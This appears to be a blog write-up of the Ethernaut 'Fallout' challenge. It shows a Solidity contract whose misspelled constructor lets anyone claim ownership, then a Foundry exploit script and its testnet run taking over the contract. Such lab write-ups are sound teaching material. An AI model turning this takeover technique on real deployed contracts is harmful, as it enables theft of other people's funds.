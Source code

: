 ```yaml
---
layout: post
title: "Fallout"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. Claim ownership of the contract below

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

https://docs.soliditylang.org/en/v0.6.0/contracts.html#constructors

<aside>
💡

Prior to version 0.4.22, constructors were defined as functions with the same name as the contract. This syntax was deprecated and is not allowed anymore in version 0.5.0.

</aside>

For some reason, the intended `constructor` code was written as `Fal1out()`, preventing it from acting as a `constructor` and allowing external access, which enables claiming `owner`.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "../src/Fallout.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract FallbackSol is Script {
    Fallout public fallout_ = Fallout(0x28eA66cBFb2900Bea8bb84f058d740ce0Ab751CB);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        fallout_.Fal1out();
        console.log("Contract owner: ", fallout_.owner());

        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/FalloutSol.sol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Contract owner:  0x6f5Ad1E6F1a624E4Ad37f0B7D6f100ab1Db29514

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.002095526 gwei

Estimated total gas used for script: 62992

Estimated amount required: 0.000000132001373792 ETH

==========================

##### holesky
✅  [Success] Hash: 0xcaa845bc5fa9ebb3adcb5902c12ffa24c14a609adc31cd0b789bfae23b11c5aa
Block: 3669787
Paid: 0.000000095568239514 ETH (45606 gas * 0.002095519 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000095568239514 ETH (45606 gas * avg 0.002095519 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-17-Fallout/complete.png)